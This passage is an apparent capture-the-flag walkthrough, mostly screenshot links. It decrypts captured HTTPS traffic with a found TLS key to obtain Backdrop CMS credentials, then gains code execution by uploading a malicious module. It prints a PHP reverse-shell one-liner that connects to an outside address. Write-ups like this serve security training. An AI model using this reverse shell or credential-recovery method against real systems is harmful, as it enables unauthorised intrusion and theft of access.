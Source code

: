 <img src="https://i.imgur.com/61uobVA.png"/>

<img src="https://i.imgur.com/GiLXQIP.png"/>

<img src="https://i.imgur.com/3HiaBzc.png"/>

But here we need creds so we do need to find the credentials and for that we need to somhow to decrypt the https traffic, we can look for a `.key` file with `find`

<img src="https://i.imgur.com/ofiOyve.png"/>

<img src="https://i.imgur.com/ES1kXvH.png"/>

We can add the key by going into `preferences` -> `protocols` -> `TLS`

<img src="https://i.imgur.com/dp7p6kb.png"/>

And now we can see the http traffic

<img src="https://i.imgur.com/eilDOyO.png"/>

<img src="https://i.imgur.com/2Yfg5qQ.png"/>

Getting the credentials we can login on backdrop cms

<img src="https://i.imgur.com/GMPddQo.png"/>

<img src="https://i.imgur.com/Ryy1liR.png"/>

We can get remote code execution by installing a malicious module, either creating one by analyzing how the module is structutred or just grabbing one from github

https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS

<img src="https://i.imgur.com/Gmkujs8.png"/>

<img src="https://i.imgur.com/ksl08SP.png"/>

<img src="https://i.imgur.com/PXwxV33.png"/>

<img src="https://i.imgur.com/1oX1RhW.png"/>

Start a netcat listener with proxychains, as python and python3 both weren't available we can utilize php to get a reverse shell

```php
php -r '$sock=fsockopen("10.10.14.24",2222);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

<img src="https://i.imgur.com/30YajTi.png"/>

<img src="https://i.imgur.com/nIeQxjL.png"/>
